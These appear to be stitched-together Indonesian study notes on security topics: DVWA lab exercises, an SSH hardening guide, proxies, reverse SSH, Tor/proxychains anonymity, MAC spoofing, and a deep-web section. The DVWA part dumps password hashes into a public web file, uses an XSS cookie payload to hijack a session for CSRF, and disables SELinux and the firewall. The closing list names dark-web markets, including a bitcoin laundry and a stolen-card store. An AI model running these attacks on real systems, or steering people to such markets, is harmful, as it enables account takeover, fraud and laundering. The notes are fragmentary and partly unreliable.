grep "db_" /var/www/html/dvwa/config/config.inc.php</code></pre>
This command produces a table list of the dvwa database :
echo "use dvwa; show tables;" | mysql -uroot -pdvwaPASSWORD</code></pre>
This command describes the columns of the users table in the dvwa datase :
echo "use dvwa; desc users;" | mysql -uroot -pdvwaPASSWORD</code></pre>
This command displays the user and password information for each user in the dvwa.users table.
echo "select user,password from dvwa.users;" | mysql -uroot -pdvwaPASSWORD</code></pre>
echo "<pre>" >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "select user,password from dvwa.users;" | mysql -uroot -pdvwaPASSWORD >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "</pre>" >> /var/www/html/dvwa/hackable/uploads/xss.html
echo "<br>Your Name<br>" >> /var/www/html/dvwa/hackable/uploads/xss.html
date >> /var/www/html/dvwa/hackable/uploads/xss.html
buka di web browser :
http://192.168.43.207/dvwa/hackable/uploads/xss.htmlCross Site Request Forgery
Server :
sestatus
If SELinux status: is set to disabled OR if Current mode: is set to permissive, then skip the next steps, and Continue to the Next Section.
If SELinux status: is set to enabled AND if Current mode: is set to enforcing, then Continue the next steps.
Place selinux harusnya mode disable
ubah current mode permissive :
echo 0 > /selinux/enforce
disable firewall :
service iptables save
service iptables stop
Client :
Masuk CSRF
New password: abc123
Confirm new password: abc123
Click Change
copy url setelah ganti password
taruh di text editor / untitled (A)
logout
login dengan password baru
masuk ke XSS reflected
What's your Name? <script>alert(document.cookie)</script>
Click Submit
copy isi alert nya
paste di file tadi (B)
curl --cookie "B" --location "A"
jadinya :
curl --cookie "security=low; PHPSESSID=3juclcme0enmmhns9t36mi4ij0" --location "http://192.168.43.207/dvwa/vulnerabilities/csrf/?password_new=test123&password_conf=test123&Change=Change#"
ubah password :
curl --cookie "security=low; PHPSESSID=3juclcme0enmmhns9t36mi4ij0" --location "http://192.168.43.207/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#"
masuk terminal
<ubah password> | grep "Password Changed" | tee curl.txt
silahkan logout dan login lagi
sumber :
Proxy
Apa Itu Proxy?
Proxy adalah suatu sistem yang memungkinkan kita untuk bisa mengakses jaringan internet menggunakan IP yang berbeda dengan yang diterima oleh perangkat. Sistem ini menggunakan proxy server untuk dapat bekerja.
Sedangkan proxy server itu sendiri merupakan perangkat atau komputer yang digunakan untuk menyediakan layanan proxy.
Dalam jaringan komputer, server proxy adalah server (sistem komputer atau program aplikasi) yang bertindak sebagai perantara permintaan dari klien untuk mencari sumber daya dari server lain. Klien terhubung ke server proxy, meminta beberapa layanan, seperti file, koneksi, halaman web, atau sumber lainnya, tersedia dari server yang berbeda. Server proxy mengevaluasi permintaan sesuai dengan aturan penyaringan. Misalnya, mungkin filter lalu lintas menurut alamat IP atau protokol. Jika permintaan itu divalidasi oleh filter, proxy menyediakan sumber daya oleh relevan menghubungkan ke server dan meminta operator atas nama klien. A proxy server mungkin opsional mengubah klien atau permintaan dari respon server, dan kadang-kadang dapat melayani permintaan tanpa menghubungi server yang telah ditentukan. Dalam hal ini, proxy server akan meng-"cache" tanggapan dari server jauh, dan kembali setelah permintaan untuk konten yang sama secara langsung.
Sebuah proxy server memiliki dua tujuan:
- Untuk menjaga mesin belakangnya agar menjadi anonymous (terutama untuk keamanan).
- Untuk mempercepat akses ke sumber daya (via caching). Hal ini biasanya digunakan untuk cache halaman web dari web server.
Sebuah proxy server yang lolos dan meminta balasan tanpa di modifikasi biasanya disebut gateway atau terkadang tunneling proxy.
Sebuah proxy server dapat ditempatkan pada komputer pengguna lokal atau di berbagai titik antara pengguna dan tujuan atau server Internet. Sebuah reverse proxy adalah proxy yang digunakan sebagai front-end untuk mempercepat di-cache dan permintaan sumber daya (seperti halaman web).
Kenapa Harus Menggunakan Proxy?
- Beberapa pengguna tidak ingin identitasnya diketahui: lokasi dan alamat IP yang digunakan, maka mereka menyembunyikannya dengan menggunakan proxy.
- Terkadang beberapa sekolah melakukan pembatasan akses pada website tertentu. Proxy digunakan oleh siswa untuk menyiasatinya sehingga bisa mengakses website yang diblokir.
- Pengguna yang pergi ke luar negeri dan memblokir akses ke negara asal atau rumah Anda.
- Kantor atau penyedia layanan internet di rumah memblokir akses ke sosial media atau situs lainnya.
Jenis-jenis Proxy
-
Transparent Proxy Jenis ini memberikan informasi ke website bahwa koneksi menggunakan proxy server dan tetap akanmeneruskan informasi IP Anda.
-
Anonymous Proxy Jenis ini akan mengidentifikasi dirinya sebagai proxy, tapi tidak mengirimkan/meneruskan alamat IP asli yang Anda gunakan.
-
Distorting Proxy Jenis proxy ini akan memberikan alamat IP yang berbeda dari yang Anda gunakan, tapi tetap mengidentifikasi dirinya sebagai proxy server.
-
High Anonymity Proxy Jenis yang terakhir ini adalah jenis proxy yang menyembunyikan identitas proxy server dan alamat IP yang digunakan oleh pengguna. Website hanya akan melihat alamat IP acak yang menghubungkannya, bukan alamat IP milik Anda.
Bagaimana Cara Kerja Proxy?
Server proxy bertugas untuk meneruskan koneksi Anda ke alamat website yang ingin dibuka. Apa maksudnya?
Secara normal, ketika Anda mengetikkan alamat website (niagahoster.co.id atau lainnya), Internet Service Provider (ISP) membuat sebuah permintaan kepada Anda untuk mengkoneksikannya dengan alamat tujuan.
Akan tetapi, berbeda kondisinya ketika menggunakan server proxy. Koneksi yang Anda gunakan akan terhubung terlebih dahulu ke server proxy. Baru kemudian server proxy meneruskan permintaan Anda ke alamat tujuan. Cara ini membuat alamat IP asli yang Anda gunakan tidak dapat terdeteksi oleh website dan yang Anda gunakan adalah alamat IP server proxy.
sumber : https://help.ubuntu.com/community/SSH
Introduction
SSH ("Secure SHell") is a protocol for securely accessing one computer from another. Despite the name, SSH allows you to run command line and graphical programs, transfer files, and even create secure virtual private networks over the Internet.
To use SSH, you will need to install an SSH client on the computer you connect from, and an SSH server on the computer you connect to. The most popular Linux SSH client and Linux SSH server are maintained by the OpenSSH project.
Make sure you have a strong password before installing an SSH server (you may want to disable passwords altogether)
Configure OpenSSH server
sudo apt-get install openssh-server
you will need to configure it by editing the sshd_config file in the /etc/ssh directory.
!!!
sshd_config is the configuration file for the OpenSSH server.
ssh_config is the configuration file for the OpenSSH client.
Make sure not to get them mixed up.
First, make a backup of your sshd_config file by copying it to your home directory, or by making a read-only copy in /etc/ssh by doing:
sudo cp /etc/ssh/sshd_config /etc/ssh/sshd_config.factory-defaults
sudo chmod a-w /etc/ssh/sshd_config.factory-defaults
Creating a read-only backup in /etc/ssh means you'll always be able to find a known-good configuration when you need it.
Once you've backed up your sshd_config file, you can make changes with any text editor, for example;
sudo gedit /etc/ssh/sshd_config
sudo restart ssh
If you get the error, "Unable to connect to Upstart", restart ssh with the following:
sudo systemctl restart ssh
Disable Password Authentication
To disable password authentication, look for the following line in your
vi sshd_config
change
#PasswordAuthentication yes
into
PasswordAuthentication no
then restart ssh
sudo systemctl restart ssh
Disable Forwarding
By default, you can tunnel network connections through an SSH session. For example, you could connect over the Internet to your PC, tunnel a remote desktop connection, and access your desktop. This is known as "port forwarding".
By default, you can also tunnel specific graphical applications through an SSH session. For example, you could connect over the Internet to your PC and run nautilus "file://$HOME" to see your PC's home folder. This is known as "X11 forwarding".
While both of these are very useful, they also give more options to an attacker who has already guessed your password. Disabling these options gives you a little security, but not as much as you'd think. With access to a normal shell, a resourceful attacker can replicate both of these techniques and a specially-modified SSH client.
It's only recommended to disable forwarding if you also use SSH keys with specified commands.
To disable forwarding, look for the following lines in your sshd_config:
AllowTcpForwarding yes
X11Forwarding yes
and replace them with:
AllowTcpForwarding no
X11Forwarding no
If either of the above lines don't exist, just add the replacement to the bottom of the file. You can disable each of these independently if you prefer.
Specify Which Accounts Can Use SSH
You can explicitly allow or deny access for certain users or groups. For example, if you have a family PC where most people have weak passwords, you might want to allow SSH access just for yourself.
Allowing or denying SSH access for specific users can significantly improve your security if users with poor security practices don't need SSH access.
It's recommended to specify which accounts can use SSH if only a few users want (not) to use SSH.
To allow only the users Fred and Wilma to connect to your computer, add the following line to the bottom of the sshd_config file:
AllowUsers Fred Wilma
To allow everyone except the users Dino and Pebbles to connect to your computer, add the following line to the bottom of the sshd_config file:
DenyUsers Dino Pebbles
It's possible to create very complex rules about who can use SSH - you can allow or deny specific groups of users, or users whose names match a specific pattern, or who are logging in from a specific location. For more details about how to create complex rules, see the sshd_config man page
Rate-limit the connections
It's possible to limit the rate at which one IP address can establish new SSH connections by configuring the uncomplicated firewall (ufw). If an IP address is tries to connect more than 10 times in 30 seconds, all the following attempts will fail since the connections will be DROPped. The rule is added to the firewall by running a single command:
sudo ufw limit ssh
On a single-user or low-powered system, such as a laptop, the number of total simultaneous pending (not yet authorized) login connections to the system can also be limited. This example will allow two pending connections. Between the third and tenth connection the system will start randomly dropping connections from 30% up to 100% at the tenth simultaneous connection. This should be set in sshd_config.
MaxStartups 2:30:10
In a multi-user or server environment, these numbers should be set significantly higher depending on resources and demand to alleviate denial-of-access attacks. Setting a lower the login grace time (time to keep pending connections alive while waiting for authorization) can be a good idea as it frees up pending connections quicker but at the expense of convenience.
LoginGraceTime 30
Display a Banner
If you want to try to scare novice attackers, it can be funny to display a banner containing legalese. This doesn't add any security, because anyone that's managed to break in won't care about a "no trespassing" sign--but it might give a bad guy a chuckle.
To add a banner that will be displayed before authentication, find this line:
#Banner /etc/issue.net
and replace it with:
Banner /etc/issue.net
This will display the contents of the /etc/issue.net file, which you should edit to your taste. If you want to display the same banner to SSH users as to users logging in on a local console, replace the line with:
Banner /etc/issue
To edit the banner itself try
sudo gedit /etc/issue.net
Here is an example for what you might put in an issue or issue.net file and you could just copy&paste this in:
***************************************************************************
NOTICE TO USERS
This computer system is the private property of its owner, whether
individual, corporate or government. It is for authorized use only.
Users (authorized or unauthorized) have no explicit or implicit
expectation of privacy.
Any or all uses of this system and all files on this system may be
intercepted, monitored, recorded, copied, audited, inspected, and
disclosed to your employer, to authorized site, government, and law
enforcement personnel, as well as authorized officials of government
agencies, both domestic and foreign.
By using this system, the user consents to such interception, monitoring,
recording, copying, auditing, inspection, and disclosure at the
discretion of such personnel or officials. Unauthorized or improper use
of this system may result in civil and criminal penalties and
administrative or disciplinary action, as appropriate. By continuing to
use this system you indicate your awareness of and consent to these terms
and conditions of use. LOG OFF IMMEDIATELY if you do not agree to the
conditions stated in this warning.
****************************************************************************
Troubleshooting
Once you have finished editing sshd_config, make sure to save your changes before restarting your SSH daemon.
First, check that your SSH daemon is running:
ps -A | grep sshd
This command should produce a line like this:
<some number> ? 00:00:00 sshd
If there is no line, your SSH daemon is not running. If it is, you should next check that it's listening for incoming connections:
sudo ss -lnp | grep sshd
This command should produce a line that looks like one of these:
0 128 :::22 :::* users:(("sshd",16893,4))
0 128 *:22 *:* users:(("sshd",16893,3))
If there is more than one line, in particular with a port number different than 22, then your SSH daemon is listening on more than one port - you might want to go back and delete some Port lines in your sshd_config. If there are no lines, your SSH daemon is not listening on any ports, so you need to add at least one Port line. If the line specifies something other than "*:22" ([::]:22 is IPv6), then your SSH daemon is listening on a non-standard port or address, which you might want to fix.
Next, try logging in from your own computer:
ssh -v localhost
This will print a lot of debugging information, and will try to connect to your SSH server. You should be prompted to type your password, and you should get another command-line when you type your password in. If this works, then your SSH server is listening on the standard SSH port. If you have set your computer to listen on a non-standard port, then you will need to go back and comment out (or delete) a line in your configuration that reads Port 22. Otherwise, your SSH server has been configured correctly.
To leave the SSH command-line, type:
exit
If you have a local network (such as a home or office network), next try logging in from one of the other computers on your network. If nothing happens, you might need to tell your computer's firewall to allow connections on port 22 (or from the non-standard port you chose earlier).
Finally, try logging in from another computer elsewhere on the Internet - perhaps from work (if your computer is at home) or from home (if your computer is at your work). If you can't access your computer this way, you might need to tell your router's firewall to allow connections from port 22, and might also need to configure Network Address Translation.
OpenSSH Key
Public and Private Keys
Public key authentication is more secure than password authentication. This is particularly important if the computer is visible on the internet. If you don't think it's important, try logging the login attempts you get for the next week. My computer - a perfectly ordinary desktop PC - had over 4,000 attempts to guess my password and almost 2,500 break-in attempts in the last week alone.
With public key authentication, the authenticating entity has a public key and a private key. Each key is a large number with special mathematical properties. The private key is kept on the computer you log in from, while the public key is stored on the .ssh/authorized_keys file on all the computers you want to log in to. When you log in to a computer, the SSH server uses the public key to "lock" messages in a way that can only be "unlocked" by your private key - this means that even the most resourceful attacker can't snoop on, or interfere with, your session. As an extra security measure, most SSH programs store the private key in a passphrase-protected format, so that if your computer is stolen or broken in to, you should have enough time to disable your old public key before they break the passphrase and start using your key. Wikipedia has a more detailed explanation of how keys work.
Public key authentication is a much better solution than passwords for most people. In fact, if you don't mind leaving a private key unprotected on your hard disk, you can even use keys to do secure automatic log-ins - as part of a network backup, for example. Different SSH programs generate public keys in different ways, but they all generate public keys in a similar format:
<ssh-rsa or ssh-dss> <really long string of nonsense> <username>@<host>
Key-Based SSH Logins
Key-based authentication is the most secure of several modes of authentication usable with OpenSSH, such as plain password and Kerberos tickets. Key-based authentication has several advantages over password authentication, for example the key values are significantly more difficult to brute-force, or guess than plain passwords, provided an ample key length. Other authentication methods are only used in very specific situations.
SSH can use either "RSA" (Rivest-Shamir-Adleman) or "DSA" ("Digital Signature Algorithm") keys. Both of these were considered state-of-the-art algorithms when SSH was invented, but DSA has come to be seen as less secure in recent years. RSA is the only recommended choice for new keys, so this guide uses "RSA key" and "SSH key" interchangeably.
Key-based authentication uses two keys, one "public" key that anyone is allowed to see, and another "private" key that only the owner is allowed to see. To securely communicate using key-based authentication, one needs to create a key pair, securely store the private key on the computer one wants to log in from, and store the public key on the computer one wants to log in to.
Using key based logins with ssh is generally considered more secure than using plain password logins. This section of the guide will explain the process of generating a set of public/private RSA keys, and using them for logging into your Ubuntu computer(s) via OpenSSH.
Generating RSA Keys
The first step involves creating a set of RSA keys for use in authentication.
This should be done on the client.
To create your public and private SSH keys on the command-line:
mkdir ~/.ssh
chmod 700 ~/.ssh
ssh-keygen -t rsa
You will be prompted for a location to save the keys, and a passphrase for the keys. This passphrase will protect your private key while it's stored on the hard drive:
Generating public/private rsa key pair.
Enter file in which to save the key (/home/b/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/b/.ssh/id_rsa.
Your public key has been saved in /home/b/.ssh/id_rsa.pub.
Your public key is now available as .ssh/id_rsa.pub in your home folder.
Congratulations! You now have a set of keys. Now it's time to make your systems allow you to login with them
Choosing a good passphrase
You need to change all your locks if your RSA key is stolen. Otherwise the thief could impersonate you wherever you authenticate with that key.
An SSH key passphrase is a secondary form of security that gives you a little time when your keys are stolen. If your RSA key has a strong passphrase, it might take your attacker a few hours to guess by brute force. That extra time should be enough to log in to any computers you have an account on, delete your old key from the .ssh/authorized_keys file, and add a new key.
Your SSH key passphrase is only used to protect your private key from thieves. It's never transmitted over the Internet, and the strength of your key has nothing to do with the strength of your passphrase.
The decision to protect your key with a passphrase involves convenience x security. Note that if you protect your key with a passphrase, then when you type the passphrase to unlock it, your local computer will generally leave the key unlocked for a time. So if you use the key multiple times without logging out of your local account in the meantime, you will probably only have to type the passphrase once.
If you do adopt a passphrase, pick a strong one and store it securely in a password manager. You may also write it down on a piece of paper and keep it in a secure place. If you choose not to protect the key with a passphrase, then just press the return when ssh-keygen asks.
Key Encryption Level
Note: The default is a 2048 bit key. You can increase this to 4096 bits with the -b flag (Increasing the bits makes it harder to crack the key by brute force methods).
ssh-keygen -t rsa -b 4096
Password Authentication
The main problem with public key authentication is that you need a secure way of getting the public key onto a computer before you can log in with it. If you will only ever use an SSH key to log in to your own computer from a few other computers (such as logging in to your PC from your laptop), you should copy your SSH keys over on a memory stick, and disable password authentication altogether. If you would like to log in from other computers from time to time (such as a friend's PC), make sure you have a strong password.
Transfer Client Key to Host
The key you need to transfer to the host is the public one. If you can log in to a computer over SSH using a password, you can transfer your RSA key by doing the following from your own computer:
ssh-copy-id <username>@<host>
Where
(i) Due to this bug, you cannot specify a port other than the standard port 22. You can work around this by issuing the command like this: ssh-copy-id "
Another alternative is to copy the public key file to the server and concatenate it onto the authorized_keys file manually. It is wise to back that up first:
cp authorized_keys authorized_keys_Backup
cat id_rsa.pub >> authorized_keys
You can make sure this worked by doing:
ssh <username>@<host>
You should be prompted for the passphrase for your key:
Enter passphrase for key '/home/<user>/.ssh/id_rsa':
Enter your passphrase, and provided host is configured to allow key-based logins, you should then be logged in as usual.
Troubleshooting
Encrypted Home Directory
If you have an encrypted home directory, SSH cannot access your authorized_keys file because it is inside your encrypted home directory and won't be available until after you are authenticated. Therefore, SSH will default to password authentication.
To solve this, create a folder outside your home named /etc/ssh/<username> (replace "
Then edit your /etc/ssh/sshd_config and add:
AuthorizedKeysFile /etc/ssh/%u/authorized_keys
Finally, restart ssh with:
sudo service ssh restart
The next time you connect with SSH you should not have to enter your password.
username@host's password:
If you are not prompted for the passphrase, and instead get just the
username@host's password:
prompt as usual with password logins, then read on. There are a few things which could prevent this from working as easily as demonstrated above. On default Ubuntu installs however, the above examples should work. If not, then check the following condition, as it is the most frequent cause:
On the host computer, ensure that the /etc/ssh/sshd_config contains the following lines, and that they are uncommented;
PubkeyAuthentication yes
RSAAuthentication yes
If not, add them, or uncomment them, restart OpenSSH, and try logging in again. If you get the passphrase prompt now, then congratulations, you're logging in with a key!
Permission denied (publickey)
If you're sure you've correctly configured sshd_config, copied your ID, and have your private key in the .ssh directory, and still getting this error:
Permission denied (publickey).
Chances are, your /home/
chmod go-w ~/
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
Error: Agent admitted failure to sign using the key.
This error occurs when the ssh-agent on the client is not yet managing the key. Issue the following commands to fix:
ssh-add
This command should be entered after you have copied your public key to the host computer.
Debugging and sorting out further problems
The permissions of files and folders is crucial to this working. You can get debugging information from both the client and server.
if you think you have set it up correctly , yet still get asked for the password, try starting the server with debugging output to the terminal.
sudo /usr/sbin/sshd -d
To connect and send information to the client terminal
ssh -v ( or -vv) username@host's
Where to From Here
No matter how your public key was generated, you can add it to your Ubuntu system by opening the file .ssh/authorized_keys in your favourite text editor and adding the key to the bottom of the file. You can also limit the SSH features that the key can use, such as disallowing port-forwarding or only allowing a specific command to be run. This is done by adding "options" before the SSH key, on the same line in the authorized_keys file. For example, if you maintain a CVS repository, you could add a line like this:
command="/usr/bin/cvs server",no-agent-forwarding,no-port-forwarding,no-X11-forwarding,no-user-rc ssh-dss <string of nonsense>...
When the user with the specified key logged in, the server would automatically run /usr/bin/cvs server, ignoring any requests from the client to run another command such as a shell. For more information, see the sshd man page. /755
Praktikum
Server / Computer yang akan diberi OpenSSH :
-
cek apakah ada folder ~/.ssh
jika tidak, maka :
mkdir ~/.ssh
chmod 700 ~/.ssh
ssh-keygen -t rsa
maka akan ada pertanyaan
Generating public/private rsa key pair.
Enter file in which to save the key (/home/b/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/b/.ssh/id_rsa.
Your public key has been saved in /home/b/.ssh/id_rsa.pub.
misal disimpan di folder /home/b/.ssh/ dan memberi nama id_rsa
maka akan muncul 2 file, id_rsa dan id_rsa.pub
lalu buat authorized_keys
cat id_rsa.pub >> authorized_keys
lalu copas ke komputer client
Client :
ssh -i id_rsa <user_target>@<ip_target>
Kosong
Mengubah port ssh
vi /etc/ssh/sshd_config
Ubah Port 22 menjadi Port <terserah>
Hilangkan tanda #
Masuk bukan pada port 22
ssh -p 12345 user@mesinserver
Ssh: ubah port & firewall
nano –w /etc/ssh/sshd_config
Port 22 ---> 2022
Ubah firewall
iptables -A INPUT -m state --state NEW -m tcp -p tcp --dport 2022 -j ACCEPT
Ssh - Error Remote Host Identification
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@ WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED! @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that a host key has just been changed.
The fingerprint for the ECDSA key sent by the remote host is
af:65:98:55:c0:bd:a3:a7:20:f6:8d:d2:3f:c8:0a:0b.
Please contact your system administrator.
Add correct host key in /home/onno/.ssh/known_hosts to get rid of this message.
Offending ECDSA key in /home/onno/.ssh/known_hosts:13
remove with: ssh-keygen -f "/home/onno/.ssh/known_hosts" -R 192.168.0.100
ECDSA host key for 192.168.0.100 has changed and you have requested strict checking.
Host key verification failed.
maka perlu
rm -Rf ~/.ssh/known_hosts
ssh user@mesinserver
Automatic Login
Sumber:
- http://wp.uberdose.com/2006/10/16/ssh-automatic-login/
- https://lms.onnocenter.or.id/wiki/index.php/Ssh_-_automatic_login
public ssh key, cek pastikan ada file id_dsa.pub
~/.ssh
kalau belum ada id_dsa.pub di ~/.ssh lakukan
chmod 700 ~/.ssh
ssh-keygen -t dsa
ssh-keygen -t rsa
copykan ke remote server
scp ~/.ssh/id_dsa.pub remoteuser@remoteserver.com:
scp ~/.ssh/id_rsa.pub remoteuser@remoteserver.com:
di remote server append content public key id_dsa.pub ke ~/.ssh/authorized_keys dan delete file id_dsa.pub
cat id_dsa.pub >> .ssh/authorized_keys
cat id_rsa.pub >> .ssh/authorized_keys
Atau sekaligus lakukan dengan cara
ssh -l remoteuser remoteserver.com 'mkdir .ssh'
ssh -l remoteuser remoteserver.com 'touch ~/.ssh/authorized_keys'
cat ~/.ssh/id_dsa.pub | ssh -l remoteuser remoteserver.com 'cat >> ~/.ssh/authorized_keys'
jangan lupa delete id_dsa.pub dari home directory di remote server
selanjutnya kita dapat login tanpa di tanyakan password
ssh -l remoteuser remoteserver.com
ssh remoteuser@remoteserver.com
Alternatif Lain
The whole process is much easier if you just use:
ssh-copy-id [-i [identity_file]] [user@]machine
jadi
ssh-keygen -t dsa
ssh-keygen -t rsa
ssh-copy-id user@machine
Menjalankan perintah secara remote
contoh
ssh user1@server1 command1
ssh user1@server1 'command2'
ssh user1@server1 'command1 | command2'
ssh user1@server1 date
ssh user1@server1 'df -H'
ssh root@nas01 uname -mrs
ssh root@nas01 lsb_release -a
ssh -t user@server "time sudo /home/user/script.sh"
Dimana
-t - memberikan akses terminal jika script menanyakan password
sudo - supaya bisa di jalankan sebagai su
Copy id_dsa.pub & id_rsa.pub
Pastikan id_dsa.pub atau id_rsa.pub di copy ke remote server,
ssh -l remoteuser remoteserver.com 'mkdir .ssh'
ssh -l remoteuser remoteserver.com 'touch ~/.ssh/authorized_keys'
cat ~/.ssh/id_dsa.pub | ssh -l remoteuser remoteserver.com 'cat >> ~/.ssh/authorized_keys'
Remote Display X Forwarding
Kadang kita ingin remote login dan me-remote layar (GUI) komputer yang kita remote.
Cek Cookies X di Komputer Kita
Di komputer kita ketik
xauth list $DISPLAY
akan keluar seperti
500GB/unix: MIT-MAGIC-COOKIE-1 beddb032e9dc14f86999994ec044b5f0
#ffff#3530304742#: MIT-MAGIC-COOKIE-1 beddb032e9dc14f86999994ec044b5f0
Remote Ke Komputer yang ingin di remote. Menggunakan
ssh user@mesinyangingindiremote
Selanjutnya tambahkan di mesin remote menggunakan perintah
touch .Xauthority
xauth add 500GB/unix:0 MIT-MAGIC-COOKIE-1 beddb032e9dc14f86999994ec044b5f0
Ini akan menambahkan data pada .Xauthority.
Logout dari mesin yang ingin diremote.
Remote Menggunakan X
dan masuk lagi sekarang menggunakan perintah
ssh -X user@mesinyangingindiremote
Reverse SSH
Sumber:
- https://www.howtoforge.com/reverse-ssh-tunneling
- https://lms.onnocenter.or.id/wiki/index.php/Ssh_-_reverse_ssh
Secara sederhana, Reverse SSH adalah teknik yang memungkinkan kita dapat mengakses sistem yang ada di balik firewall dari dunia luar. Jadi daripada mesin kita yang melakukan SSH yang normal, server yang melakukan SSH dan melalui port forwarding memastikan bahwa kita dapat SSH kembali ke mesin server.
Misalnya, server ingin reverse SSH dari source IP public 138.47.99.99 ke mesin kita dengan IP private 192.168.21 di belakang NAT.
Destination (192.168.0.21) <- |NAT| <- Source (138.47.99.99)
Asumsi:
Tujuan : 192.168.0.21
Source : 138.47.99.99
Langkah yang perlu dilakukan:
SSH dari kita/destination ke server/source dengan ip public
ssh -R 19999:localhost:22 sourceuser@138.47.99.99
port 19999 dapat diganti dengan nomor berapapun yang tidak digunakan
Sekarang kita dapat ssh dari server/source ke kita/destination menggunakan SSH Tunneling:
ssh localhost -p 19999
Server lain dapat juga akses ke 192.168.0.21 melalui
Destination (192.168.0.21) <- |NAT| <- Source (138.47.99.99) <- Bob's server
Caranya
Dari Bob Server
ssh sourceuser@138.47.99.99
Setelah berhasil login di source, lakukan:
ssh localhost -p 19999
sambungan antara destination & source harus jalan sepanjang waktu
Intro
kurang lebih tahapan seperti ini :
- vpnbook.com/freevpn
- Download vpns sertificate tunnel
- remember the username and password given
- extract certificate
- openvpn <salah_satu_certificate>
vpn server gratis :
- https://www.hotspotshield.com/
- https://www.tunnelbear.com/
- https://hide.me/
- https://protonvpn.com/ <- service (netherland, japan, usm)
Proxy vs VPN
Beberapa perbedaan

Which is better ?

Intrution Detection System (IDS)
Intrution Detection System atau IDS adalah perangkat (atau aplikasi) yang memonitor jaringan dan / atau sistem untuk kegiatan berbahaya atau pelanggaran kebijakan dan memberikan laporan ke administrator atau station manajemen jaringan.
Intrusion Detection and Prevention System atau IDPS atau Sistem pendeteksi intrusi dan pencegahan terutama difokuskan pada identifikasi kemungkinan insiden, mencatat informasi tentang insiden tersebut, mencoba untuk menghentikan mereka, dan melaporkan mereka ke administrator keamanan.
Istilah Istilah di IDS
- Alert/Alarm - Sebuah kode yang menandakan bahwa sistem sedang atau telah di serang.
- True Positive - Serangan sebenarnya yang mentrigger IDS untuk memberikan alarm.
- False Positive - Sebuah kejadian yang menyebabkan IDS memberikan alarm saat tidak ada serangan yang terjadi.
- False Negative - Kegagalan IDS dalam mendeteksi sebuah serangan yang sesungguhnya.
- True Negative - Saat tidak ada serangan yang terjadi dan tidak ada alarm yang di aktifkan.
- Noise - Data atau interferensi yang menyebabkan terjadinya false positive.
- Site policy - Kebijakan dalam sebuah organisassi yang mengatur rules dan konfigurasi dari sebuah IDS.
- Site policy awareness - Kemampuan IDS untuk secara dinamik mengubah rules dan konfigurasinya sebagai responds terhadap aktifitas lingkungan yang berubah-ubah.
- Confidence value - Nilai yang diberikan pada IDS berdasarkan pada kinerja dan kemampuan analisa sebelumnya dalam menolong mengidentifikasi sebuah serangan.
- Alarm filtering - Proses dalam mengkategorisasi attack alert yang dibuat oleh IDS untuk membedakan antara false positive dan attack yang sesungguhnya.
- Proxychains
- Change IP Public
- Change Mac Address
Change IP Public
download
sudo apt install tor
sudo service tor start
sudo service tor status
cek dulu dns leak nya di browser
misal dapat ip x.x.x.x dan lokasi kudus indonesia
sudo vim /etc/proxychains.conf
lalu
(uncomment dynamic_chain)
(comment random_chain)
(uncomment proxy_dns)
socks4 127.0.0.1 9050
socks5 127.0.0.1 9050
lalu
service tor status
service tor stop
service tor start
lalu
proxychains firefox www.duckduckgo.com
cek IP
maka akan dapat ip y.y.y.y
Change Mac Address
macchanger --help
show :
macchanger -s wlan0
another :
macchanger -a wlan0
permanent mac (kembali) :
macchanger -p wlan0
list mac :
macchanger -l
untuk cek lokasi menggunakan IP Public :
curl ifconfig.io
https://www.ipfingerprints.com/
untuk cek distributor Mac Address :
macchanger -s wlp2s0</code></pre>
https://dnschecker.org/mac-lookup.php
cek kebocoran DNS
dilansir dari https://idcloudhost.com/apa-itu-deep-web-pengertian-dampak-bahaya-dan-tujuannya/
- Pengertian
- Dampak
- Tujuan
- Tahapan menuju Deep Web (pelajari lebih dalam sebelum terjun langsung)
- Beberapa web yang deep
Pengertian
deep web adalah merupakan bagian dari World Wide Web tetapi tidak termasuk ke dalam internet yang dapat dicari dengan mudah, yaitu dengan menggunakan mesin pencari web yang menggunakan indeks mesin pencari web. Deep Web juga dikenal dengan nama Deepnet, Darknet, Invisible Web, Undernet atau Hidden Web. Istilah penamaan di atas diberikan bukan tanpa alasan, hal tersebut diambil berdasarkan fakta bahwa Deep web memuat banyak sekali konten informasi terpendam yang sulit atau bahkan tidak bisa diakses (invisible) oleh orang biasa.
Dampak
- Ancaman Virus
- Informasi Pribadi Bisa Terkuak
- Risiko Sakit Mental
- Terjebak Cyber Crime
Tujuan
- Sangat Berguna Bagi Polisi
- Menggagalkan Aksi Terorisme
- Tempat Bebas untuk Membicarakan Rahasia
- Tanpa identitas
- Informasi, buku-buku, dan dokumen rahasia
- Jual beli barang langka
===
Tahapan menuju Deep Web
- Download tor browser https://www.torproject.org/download/
sudo apt install tor- Ganti IP address
- Ganti Mac address
ganti ip dan mac dapat dilihat di Stay Anonymous
Beberapa web yang deep
sumber :
- https://thehiddenwiki.org/
- https://www.webhostingsecretrevealed.net/blog/security/dark-web-websites-onion-links/
List link deep web :
"Harap gunakan dengan bijak, untuk kepentingan pembelajaran"
"Please use it wisely, for educational purposes"
- DuckDuckGo Search Engine
- Uncensored Hidden Wiki
- Tor Project: Anonymity Online
- TorLinks
- Hidden Wiki .Onion Urls
- Hidden Wiki – Tor Wiki
- Anonet Webproxy
- Gateway to Freenet
- Is It Up?
- Onion Wiki – 650+ working 05.2017 deep web links
- TorProject Archive
- TorProject Media
- Tor Search
- Cipolla 2.0 (Italian)
Marketplace Financial :
- TorBroker – Trade securities anonymously with bitcoin, currently supports nearly 1000 stocks and ETFs
- Bitcoin Fog – Bitcoin Laundry
- AUTOMATED PAYPAL AND CREDIT CARD STORE
- Safe, Anonymous, Fast, Easy escrow service.
- EasyCoin – Bitcoin Wallet with free Bitcoin Mixer
- WeBuyBitcoins – Sell your Bitcoins for Cash (USD), ACH, WU/MG, LR, PayPal and more
